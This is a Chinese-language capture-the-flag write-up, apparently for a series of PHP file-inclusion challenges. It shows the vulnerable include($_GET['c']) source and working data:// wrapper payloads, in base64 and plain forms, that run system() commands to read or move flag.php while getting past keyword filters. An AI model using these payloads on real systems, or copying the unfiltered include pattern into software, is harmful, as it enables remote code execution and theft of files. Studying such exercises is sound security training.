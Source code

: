 考察 文件包含

**data://text/plain 任意代码执行**

```php
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
后面接的直接就是php代码的base64形式
上面的就是
    <?php system('cat flag.php');?>
wp视频介绍了一个
    <?php system('mv flag.php 1.txt');?> mv是move的缩写，就是剪切，将flag.php移到了1.txt
其实只过滤了flag，加个占位符直接?c=data://text/plain,<?php system('cat fla_.php');?>也行
```

#### 38

```php
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

过滤了php，就防止了直接<?php ?>，但是base64并没有过滤

所以上面base64的办法依旧可以

还有一种办法

> <? ?>和<?= ?>是短标签而<?php ?>是长标签，其中<?= 是代替 <? echo的，<? ?> 代替的是<?php ?>，当你发现你的PHP不支持使用短标签，请到PHP的安装目录下找到php.ini文件，使用Ctrl+F搜索short_open_tag ，然后将等号后面的Off改成On，再重新启动Apache服务，那么短标签就会被识别了

本题只支持**<?= ?>**

所以

`?c=data://text/plain,<?=system('cat f*'); ?>`

也是可以的

#### 39

```php
<?php
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag/i", $c)){
        include($c.".php");
    }
        
}else{
    highlight_file(__FILE__);
}
```
